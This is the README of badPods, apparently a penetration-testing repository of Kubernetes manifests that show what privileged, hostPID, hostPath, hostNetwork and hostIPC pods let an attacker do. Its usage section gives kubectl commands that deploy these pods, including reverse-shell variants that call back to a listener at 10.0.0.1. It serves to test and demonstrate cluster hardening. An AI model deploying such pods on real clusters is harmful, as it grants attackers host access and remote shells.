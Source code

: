 # badPods

A collection of manifests that create pods with different elevated privileges. Quickly demonstrate the impact of allowing specific security sensitive pod specifications. 

## Background
Occasionally pods need access to privileged resources on the host, so the Kubernetes pod spec allows for it. However, this level of access should be granted with extreme caution. Administrators have ways to prevent the creation of pods with these security sensitive pod specifications using Pod Security Policies or with admission controllers like OPA Gatekeeper. However, the real-world security implication of allowing a certain attributes is not always understood, and quite often, pod creation polices are not as locked down as they should be. 

## Purpose
What if you can create a pod with just `hostNetwork`, just `hostPID`, just `hostIPC`, just `hostPath`, or just `privileged`? What can you do in each case? This repository aims to help you answer those questions. 

## Prerequisites
In order to be successful in this attack path, you'll need the following: 

1. Access to a cluster 
1. Permission to create pods in at least one namespace. If you can exec into them that makes life easier.  
1. A pod security policy (or other pod admission controller's logic) that allows pods to be created with one or more security sensitive attributes, or no pod security policy / pod admission controller at all

## The badPods line-up
In most situations, if you have permission to create pods, you also have permission to `exec` into them. However, that is not always the case so a version of each pod is included that will call back to your listener as soon as the pod is created. 

Notes | readme | pod | revshell
-- | -- | -- | --
Everything allowed | [readme](yaml/everything-allowed/) | [yaml](yaml/everything-allowed/pod-everything-allowed.yaml) | [yaml](yaml/everything-allowed/pod-everything-allowed-revshell.yaml)
Privileged and hostPid | [readme](yaml/priv-and-hostpid/) | [yaml](yaml/priv-and-hostpid/pod-priv-and-hostpid.yaml) | [yaml](yaml/priv-and-hostpid/pod-priv-and-hostpid-revshell.yaml)
Privileged only | [readme](yaml/priv/) | [yaml](yaml/priv/pod-priv.yaml) | [yaml](yaml/priv/pod-priv-revshell.yaml)
hostPath only | [readme](yaml/hostpath/) | [yaml](yaml/hostpath/pod-hostpath.yaml) | [yaml](yaml/hostpath/pod-hostpath-revshell.yaml)  
hostPid only | [readme](yaml/hostpid/) | [yaml](yaml/hostpid/pod-hostpid.yaml) | [yaml](yaml/hostpid/pod-hostpid-revshell.yaml)  
hostNetwork only | [readme](yaml/hostnetwork/) | [yaml](yaml/hostnetwork/pod-hostnetwork.yaml) | [yaml](yaml/hostnetwork/pod-hostnetwork-revshell.yaml)
hostIPC only | [readme](yaml/hostipc/) | [yaml](yaml/hostipc/pod-hostipc.yaml) | [yaml](yaml/hostipc/pod-hostipc-revshell.yaml)
Nothing allowed | [readme](yaml/nothing-allowed/) | [yaml](yaml/nothing-allowed/pod-nothing-allowed.yaml) | [yaml](yaml/nothing-allowed/pod-nothing-allowed-revshell.yaml)


# Impact - What's the worst that can happen?
Check out blog post here

# Usage
 Each resource in the `yamls` directory targets a specific attribute or a combination of attributes that expose the cluster to risk when allowed. Each subdirectory has it's own usage information which includes tailored post-exploitation ideas and steps.  

### Clone the repo
```bash
git clone https://github.com/BishopFox/badPods
cd badPods
```

### Create the pods (or at least try to create them)

```bash
kubectl apply -f ./yaml/everything-allowed/pod-everything-allowed.yaml
kubectl apply -f ./yaml/priv-and-hostpid/pod-priv-and-hostpid.yaml 
kubectl apply -f ./yaml/priv/pod-priv.yaml
kubectl apply -f ./yaml/hostpath/pod-hostpath.yaml
kubectl apply -f ./yaml/hostpid/pod-hostpid.yaml 
kubectl apply -f ./yaml/hostnetwork/pod-hostnetwork.yaml
kubectl apply -f ./yaml/hostipc/pod-hostipc.yaml
kubectl apply -f ./yaml/nothing-allowed/pod-nothing-allowed.yaml

```

### Reverse shell version of each pod
If you can create pods but not exec  into them, you can use the reverse shell version of each pod. To avoid having to edit each pod with your host and port, you can environment variables and the `envsubst` command. Remember to spin up all of your listeners first!

```bash
HOST="10.0.0.1" PORT="3111" envsubst < ./yaml/priv-and-hostpid/pod-priv-and-hostpid-revshell.yaml | kubectl apply -f -
HOST="10.0.0.1" PORT="3112" envsubst < ./yaml/hostpid/pod-hostpid-revshell.yaml  | kubectl apply -f -
HOST="10.0.0.1" PORT="3113" envsubst < ./yaml/hostnetwork/pod-hostnetwork-revshell.yaml | kubectl apply -f -
HOST="10.0.0.1" PORT="3114" envsubst < ./yaml/hostpath/pod-hostpath-revshell.yaml | kubectl apply -f -
HOST="10.0.0.1" PORT="3115" envsubst < ./yaml/hostipc/pod-hostipc-revshell.yaml | kubectl apply -f -
HOST="10.0.0.1" PORT="3116" envsubst < ./yaml/everything-allowed/pod-everything-allowed-revshell.yaml | kubectl apply -f -
HOST="10.0.0.1" PORT="3117" envsubst < ./yaml/nothing-allowed/pod-nothing-allowed-revshell.yaml | kubectl apply -f -
```

# Acknowledgements 
Thank you [Rory McCune](https://twitter.com/raesene), [Duffie Cooley](https://twitter.com/mauilion), [Brad Geesaman](https://twitter.com/bradgeesaman), [Tabitha Sable](https://twitter.com/tabbysable), [Ian Coldwater](https://twitter.com/IanColdwater), and [Mark Manning](https://twitter.com/antitree) for publicly sharing so much knowledge about Kubernetes offensive security. 
